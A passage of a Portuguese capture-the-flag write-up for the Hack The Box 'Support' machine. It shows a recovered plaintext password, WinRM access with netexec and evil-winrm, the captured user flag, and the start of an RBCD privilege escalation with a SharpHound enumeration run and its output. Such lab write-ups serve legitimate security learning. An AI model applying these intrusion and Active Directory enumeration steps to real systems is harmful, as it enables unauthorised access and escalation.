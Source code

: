 ​	Feito o dump, podemos analisar os arquivos e ver se achamos algo que seja útil. Após uma pesquisa no arquivo **domain_users.json**, podemos encontrar o que seria uma possível senha de acesso do usuário **support**.

![](/home/kali/Desktop/HTB/machines/to-do/support/ss/info_support.png)

​	Ao validar as credenciais, podemos perceber que elas possuem acesso à máquina via winrm e podemos usar isso para logar e pegar a flag de user.

```bash
┌──(kali㉿kali)-[~/…/HTB/support/ldapdomaindump]
└─$ netexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.129.227.255  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)                                                                                                                                         
┌──(kali㉿kali)-[~/…/HTB/support/ldapdomaindump]
└─$ evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'                                                      
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
a130a88738451f5b52840559188ff148
*Evil-WinRM* PS C:\Users\support\Desktop>
```

## Privilege Escalation

​	O PrivEsc dessa máquina se dá através de uma exploracao de RBCD (Resource-Based Constrained Delegation).

Referências:

1. [RBCD - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
2. [Rubeus - S4U](https://github.com/GhostPack/Rubeus#s4u) 

​	Para comecar, quando estivermos com uma shell do usuário **support**, usamos o **SharpHound** para enumerar o domínio.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound4.exe --CollectionMethods All --Domain support.htb --ExcludeDCs
2024-01-10T07:06:28.5709979-08:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2024-01-10T07:06:28.7741283-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-01-10T07:06:28.8053779-08:00|INFORMATION|Initializing SharpHound at 7:06 AM on 1/10/2024
2024-01-10T07:06:29.2057856-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-01-10T07:06:29.4088830-08:00|INFORMATION|Beginning LDAP search for support.htb
2024-01-10T07:06:29.5338750-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-01-10T07:06:29.5338750-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-01-10T07:06:59.9179499-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-01-10T07:07:17.8467252-08:00|INFORMATION|Consumers finished, closing output channel
```